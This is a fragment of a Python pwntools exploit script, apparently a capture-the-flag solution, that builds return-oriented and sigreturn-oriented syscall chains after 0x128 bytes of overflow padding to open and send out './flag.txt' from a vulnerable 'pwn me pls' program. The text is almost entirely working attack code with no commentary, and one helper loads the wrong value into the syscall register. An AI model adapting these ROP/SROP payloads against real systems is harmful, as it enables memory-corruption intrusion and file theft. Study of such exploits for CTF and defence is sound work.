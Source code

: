 ```cs
    return pl

def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

def sendfile():
    '''call sendfile(rdi=0x1, rsi=0x3, rdx=0x0, r10=0x7fffffff)'''
    pl = p64(pop_rax) + p64(0xf)
    pl += p64(syscall_ret)
    frame = SigreturnFrame(arch = "amd64", kernel="amd64")
    frame.rax = constants.SYS_sendfile
    frame.rsi = 3
    frame.rdi = 1
    frame.rdx = 0
    frame.r10 = 0x50
    frame.rip = syscall_ret
    pl += bytes(frame)
    return pl


def state1():
    payload = b'a'*0x128
    payload += read(bss,0)
    return payload

def state2():
    payload = b'a'*0x128
    payload += open(bss)
    payload += sendfile()
    return payload

input()
payload2 = state1()
p.sendlineafter(b'pwn me pls',payload2)
input()
p.send(b'./flag.txt\x00')

payload3 = state2()
p.sendlineafter(b'pwn me pls',payload3)


```